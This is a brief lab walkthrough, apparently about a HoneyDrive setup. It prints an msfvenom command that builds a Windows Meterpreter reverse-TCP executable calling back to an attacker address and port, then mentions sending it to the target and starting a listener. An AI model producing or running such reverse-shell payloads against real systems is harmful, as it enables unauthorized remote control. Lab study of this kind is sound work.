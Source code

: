 To construct a payload in Metasploit on Kali Linux, run the following command.

You can specify the architecture, platform, and type of payload to use by using the -a, –platform, and -p options. Lhost appears to be the attacker’s IP address, to which the payload should be linked. Lport is identical to the above; this is the port to which the payload will connect, and it must be specified in the handler. -f tells Msfvenom how to produce the payload, which in this case is a program executable or exe.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe -o payload.exe
```

<div style="text-align:center"><img src="/images/honeydrive/64.png" /></div><br>
      
The payload was created then send to the targeted system. 

<div style="text-align:center"><img src="/images/honeydrive/65.png" /></div><br>
      
Start the metaspolit framework for set a listener for send payload.

<div style="text-align:center"><img src="/images/honeydrive/66.png" /></div><br>
